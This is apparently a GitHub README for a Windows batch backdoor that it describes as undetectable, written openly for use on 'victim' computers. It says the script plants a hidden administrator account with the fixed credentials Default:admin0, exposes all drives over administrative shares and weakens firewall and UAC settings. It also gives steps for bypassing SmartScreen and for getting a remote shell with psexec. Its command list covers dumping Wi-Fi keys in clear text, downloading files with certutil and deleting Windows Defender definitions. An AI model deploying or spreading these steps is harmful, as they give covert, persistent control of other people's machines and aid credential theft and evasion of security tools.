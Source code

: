 # Natural Backdoor for Windows
# natural.bat
Creates permanent and undetectable backdoor over administrative shares on Windoze boxes.
# What is it?
It's batch (cmd) file creates a backdoor which use the native features of windows. It does not create any suspicious anomaly indication in the system. It does not get caught by standard antivirus and firewalls. When the script is run with administrator rights, all hard disk drives of the victim computer are shared to the network as a hidden share (Windows administrational share). The hidden share can only be accessed by a secret administrator user created on the victim system. When the script is run on the victim computer, it performs the following operations, respectively.
- Adds 'Default' user with password 'admin0' into administrators group.
- Hides 'Default' user from control panel and logon screen.
- Enables file sharing on Windows Firewall
- Enables windows administrative file sharing (c$ ipc$ admin$ etc...)
- Disables empty password account security
- Appends the mac address of the victim computer to the end of the script file with a alias.
# Install
Run the script on victim computer with administrative privileges. In some cases Windows Defender Smart Screen blocks to run script because of alternate data stream zone identifier that is appended to the file when it is downloaded from the internet. To run script with administration priviligies try the methods below:
- Via command window with administative privileges: Open windows menu and search "cmd" then right click and select "Run as administrator". Type full path of the bat file or drag&drop the bat file to command window (full path will appear) and press "Enter" to run file.
- Unblock the file: Run windows power shell with administrative privileges and type Unblock-File path/to/natural.bat. From now on the batch file can be run without limitation. 
# Using
The address \\ip\c$ gives the attacker full access (including write) to the c drive of the victim's computer. See the image below. The Default:admin0 account used for access is a hidden account and does not appear on the victim computer's login screen and control panel. The script also adds the required firewall rule for samba access (windows shares), disabling the user account control. 

![Administrative shares](assets/administrative-shares.png "Administrative shares")

The script prompts for an alias for the target computer before it finishes running. The nickname entered is saved at the end of the natural.bat file along with the mac address of the computer on which the script is run. This mac address is stored to identify the victim computer on the network. If necessary, the current IP address of the target computer can be resolved by scanning the network from the mac address added to the end of the file.
# Next Stage: Remote Shell
You can run commands on the victim computer by taking advantage of the RPC feature of Windows. You can access the command line of the remote computer with the psexec program by downloading pstools from [the microsoft site](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) (sysinternals). PSEXEC tries to connect to the Admin$ share of the remote computer, in order to copy on the remote machine the PSEXecSVC.exe, which is the binary of the Service that will run remotely. The following psexec tutorial runs cmd.exe in interactive mode on the remote computer. Once you have the command line, what you can do is limited by your imagination.

![Remote shell](assets/remote-shell.png "Remote shell")

# Some usefull shell commands

Some functional command examples listed below and [more](https://github.com/security-cheatsheet/cmd-command-cheat-sheet). 

Basic commands for Pentesters (https://book.hacktricks.xyz/windows-hardening/basic-cmd-for-pentesters)

Check "got administrator access" section in diagram at (https://raw.githubusercontent.com/Orange-Cyberdefense/arsenal/master/mindmap/pentest_ad.png)

> wmic process list brief **: Shows running process.**\
> wmic useraccount **: Shows user accounts.**\
> systeminfo **: Show system info.**\
> fsutil fsinfo drives **: Get fixed disk drives list.**\
> wmic logicaldisk get caption,description,providername **:Show mounted disks**\
> netsh wlan show profiles **: List stored wireless connection profiles.**\
> netsh wlan show profile name=<SSID Name> key=clear **: Show stored wireless key as clear text.**\
> certutil.exe -urlcache -split -f "url" setup.exe **: Downloads a file from command line without any external tool.**\
> dir C:\$Recycle.Bin /s /b **: Show recyle bin content.**\

Antiviruses

> WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List **:Show installed Antivirus softwares **\
> sc query windefend **: Show service status of Microsoft Windows Defender.**\
> "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All **: Delete all rules of Defender (useful for machines without internet access)**\


# Further Steps

Remote control victim computer  with UltraVNC. [Click](uvnc.md) for installation steps.

Check: https://github.com/JoelGMSec/AutoRDPwn
Check: https://darkbyte.net/autordpwn-la-guia-definitiva/

# Uninstall
Just run unatural.bat with administrative privileges Its revert all registry settings and drop admin account.  The control computer can still continue to access the victim computer via the open session. However, this access authorization will be completely lost when the computer is restarted.
# Tested on
- [ ] Windows 7
- [x] Windows 10 32/64
- [ ] Windows 11 32/64

